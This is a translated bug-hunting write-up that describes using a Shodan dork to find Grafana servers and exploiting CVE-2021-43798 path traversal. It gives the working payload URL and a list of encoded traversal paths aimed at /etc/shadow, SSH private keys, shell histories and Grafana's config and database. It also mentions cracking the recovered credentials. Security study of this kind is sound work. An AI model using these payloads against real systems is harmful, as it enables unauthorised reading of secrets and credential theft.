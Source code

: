 # 从 Shodan 呆子到 Grafana📊本地文件包含

> 原文：<https://infosecwriteups.com/from-shodan-dork-to-grafana-local-file-inclusion-e77dc4cfc264?source=collection_archive---------0----------------------->

嗨读者们📖，这是我在使用 shodan recon 和进一步开发 grafana 服务时发现的关于本地文件包含的新文章。

最后，我还将提供一个来自我的 youtube 频道的视频 POC 链接，这将有助于您更清楚地理解这一点。

**让我们开始吧，**

对于 grafana 相关的服务，我使用简单的 shodan dork

"***title:grafana hostname:target***也可以用***http . title:grafana***

结果，我在目标 IP 上运行了一个 grafana 服务。

![](img/e239837a4073aef6bf34771672b34563.png)

您可以进一步使用 [**ipinfo.io**](https://ipinfo.io) 来收集更多与 IP 地址相关的信息。

现在，grafana 运行在端口 3000 上，这是该服务的常用端口，像往常一样，我检查默认凭据，但它们对我不起作用。

![](img/ed2741be2fbd98d7c9de2909a60a5d66.png)

此外，我发现该服务运行在版本 **v8.0.4** 上，然后我查找该版本的可用 CVE，发现该版本容易受到 LFI 漏洞的攻击。

你可以在下面的样本截图底部的细节中查看版本。它是 9.2.3，但在我的例子中，版本是 8.0.4。

![](img/98a713f2de406d9efc7675600fbec969.png)

***注意:LFI 漏洞影响 Grafana 8.0.0-beta1 到 8.3.0***

LFI 简介:

攻击者可以使用本地文件包含(LFI)来欺骗 web 应用程序暴露或运行 web 服务器上的文件。LFI 攻击可能导致信息泄露、远程代码执行，甚至跨站点脚本。通常，当应用程序使用文件路径作为输入时，会发生 LFI。如果应用程序将此输入视为可信，则可以在 include 语句中使用本地文件。

*那么，我们来说正题，*

现在它很容易受到**CVE-2021–43798**你可以在[**https://cve.mitre.org/cgi-bin/cvename.cgi?阅读/查看有关这个 CVE 的详细信息 name = CVE-2021-43798**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798)**。**

手动，我发现 LFI 在路径 **/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..插件**警报列表**上的%2fetc/passwd**

那么完整路径就变成了 **/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd/**

有效负载:[**http://target _ IP:3000/public/plugins/alert list/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd/**](http://target_ip:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd/)

**结果:**

![](img/147bc0071d6d0c459728e076f5ab8e30.png)

但是可以有很多插件，例如

**警报列表
公告列表
grafana-azure-monitor-data source
条形图
条形标尺
cloudwatch
仪表盘列表
弹性搜索
标尺
geomap
getting started
堆栈驱动
图形
石墨
热图
直方图**

**还有更多……**

此外，除了 **/etc/passwd** 之外，还可能有更多的*路径*，如果 **/etc/passwd** 不工作，我们可能会错过其他敏感信息

例如:

**/..%2f..%2f..%2f..%2f..%2fconf/defaults.ini
/..%2f..%2f..%2f..%2f..%2fconf/grafana.ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..% 2 fetc/grafana/grafana . ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..% 2 fetc/grafana/defaults . ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/shadow
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome/grafana/。bash_history
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome/grafana/。ssh/id_rsa
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2froot/。bash_history
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2froot/。ssh/id_rsa
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..% 2 fusr/local/etc/grafana/grafana . ini
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..% 2f var/lib/grafana/grafana . db
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc/net/fib_trie
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc/net/tcp
/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc/self/cmdline**

所以手动地用各自的插件查找每个案例是一个漫长的过程，所以你可以编写自己的脚本来自动完成这个任务，

为了进一步自动化攻击，我在 GitHub [**上使用了一个专门为这个 CVE 制作的工具 https://GitHub . com/Pedro havay/exploit-grafana-CVE-2021-43798**](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798/blob/main/README.md)

正如我已经说过的，我们可以在另一个路径中找到更敏感的信息，也可以在 **defaults.ini** 路径中找到，此外，我能够在上述工具的帮助下破解凭证，或者，您可以使用其他工具来破解密钥，如 hashcat 或 john the ripper。

![](img/050ff791971eb152b99897ded1a03bad.png)![](img/38908b6f84d5e8d48518c6d356188337.png)

**破解密钥**

![](img/a388d9f4d69531e4b89a6d25c161e290.png)

这样，漏洞的影响会增加。

**我在下面添加视频概念证明:**

**感谢您阅读文章**🤩

订阅我的 youtube 频道寻找 bug 相关的东西: [**redirect _poc**](https://www.youtube.com/channel/UCq7-Qf45etdk0qc35I_n7PQ?sub_confirmation=1)

你可以在 Instagram 上关注我 **varmaanu001**

在 Linkedin 上关注我: [**我的 _ Linkedin**](http://linkedin.com/in/anurag-verma-650b771a2)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！